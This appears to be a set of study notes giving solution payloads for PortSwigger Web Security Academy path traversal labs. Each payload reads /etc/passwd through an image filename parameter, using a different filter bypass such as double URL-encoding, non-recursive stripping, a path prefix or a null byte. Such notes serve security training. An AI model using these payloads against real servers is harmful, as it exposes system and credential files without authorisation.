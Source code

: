 
File path traversal, simple case

From <https://portswigger.net/web-security/file-path-traversal/lab-simple> 


Path traversal

Simple
```
/../../../etc/passwd
```

From <https://portswigger.net/web-security/file-path-traversal/lab-simple> 


File path traversal, traversal sequences blocked with absolute path bypass

From <https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass> 

```
image?filename=/../../../etc/passwd
```



File path traversal, traversal sequences stripped non-recursively

From <https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively> 

```
image?filename=....//....//....//etc/passwd
```

From <https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively> 


File path traversal, traversal sequences stripped with superfluous URL-decode

From <https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode> 
Double urlencode

```
image?filename=..%252f..%252f..%252fetc/passwd
```

From <https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode> 


File path traversal, validation of start of path

From <https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path> 


```
image?filename=/var/www/images/../../../etc/passwd
```

From <https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path> 

File path traversal, validation of file extension with null byte bypass

From <https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass> 
```
image?filename=/../../../etc/passwd%00.png
```

From <https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass> 

